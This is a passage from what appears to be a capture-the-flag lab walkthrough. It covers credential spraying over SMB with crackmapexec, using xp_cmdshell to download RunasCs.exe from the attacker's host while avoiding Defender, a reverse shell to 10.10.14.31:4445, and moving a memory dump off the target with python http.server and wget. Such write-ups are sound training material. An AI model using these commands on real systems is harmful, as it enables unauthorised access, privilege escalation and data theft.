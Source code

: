 I then used crackmapexec (CME) to test them out.

```
crackmapexec smb 10.10.11.5 -u users.txt -p IL0...........
```

I get a hit on mikasaAckerman (which fans of the popular anime, Attack on Titan, such as myself, could have guessed without any tools).

```
mikasaAckerman|IL0...........
```

### Privilege Escalation: RunasCs

I'll now upload RunasCs.exe to the box so we can abuse these credentials for a privilege escalation. When I tried to upload tools to the box without the help of the SQL terminal earlier, defender seemed to be much more vicious about them, so we'll use the terminal for this as well. I'm not quite sure why this is the case, but this worked for me!

```
EXECUTE AS LOGIN = 'sa'
EXEC xp_cmdshell 'powershell -noprofile -Command "Invoke-WebRequest http://10.10.14.31:8000/RunasCs.exe -OutFile C:\Users\Public\RunasCs.exe"';
```

I start a new listener and await my shell

```
./RunasCs.exe mikasaAckerman IL0............. cmd.exe -r 10.10.14.31:4445
```

After a few seconds, I'm greeted by a new user account! 

### Memory Dump Analysis

Mikasa has a few interesting files in her desktop directory, one is an email, and another is what looks to be a memory dump. In users/mikasaAckerman, I start a simple python http server for exfil of the memory dump. Have I mentioned that I love it when boxes have access to python?

```
python -m http.server 64000
```

```
wget http://10.10.11.5:64000/MEMORY.7z
```

Finally, I unzip the file.

```
7z x MEMORY.7z
```

I'll now need to read the memory dump, which can be done with a variety of tools. I tried volatility first, but never got it to work. Soon after, I moved to my operation to memprocfs. This worked better, but not the way I was expecting. 

```
memprocfs -mount ./memdump -f MEMORY.DMP
```
